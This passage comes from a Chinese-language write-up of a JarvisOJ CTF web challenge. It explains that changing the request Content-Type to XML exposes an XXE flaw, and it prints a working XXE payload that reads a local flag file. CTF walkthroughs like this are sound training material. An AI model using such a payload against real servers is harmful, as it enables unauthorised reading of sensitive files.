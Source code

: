![](/img/JarvisOJ-WEB-1/WEB13.png)

&emsp;&emsp;抓包发现提交的只是特定的值，默认格式是json：

![](/img/JarvisOJ-WEB-1/WEB14.png)

&emsp;&emsp;其实这里存在XXE漏洞，将Content-Type的值为application/xml,然后传入xml代码：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY file SYSTEM "file:///home/ctf/flag.txt">]>
<root>&file;</root>
```

&emsp;&emsp;即可得到flag。

## Flag在管理员手里
